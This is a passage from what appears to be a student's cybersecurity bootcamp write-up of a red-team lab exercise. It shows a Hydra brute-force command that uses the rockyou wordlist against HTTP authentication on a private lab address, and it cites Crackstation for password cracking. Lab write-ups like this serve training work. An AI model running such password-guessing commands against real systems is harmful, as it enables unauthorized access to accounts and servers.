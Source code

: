 		- `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder` 
  
![Hydra Input ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/3.hydra(input).png)

![Hydra Output ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/4.hydra(output).png)

#### Exploitation: 2 Cryptographic Failures

	1. Tools and Processes
		-Network Exploration
		-Reconnaisance
		-Hydra
		-Crackstation
	2. Acheivments
		- This gave me full access to the entire server, including the hidden directories and files.

	3. Screenshots and Command
   	
	   - Prompts of a "secret_folder" with the network location included
  
![secretfolder prompt ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/5.SecretFolderPrompt.png)
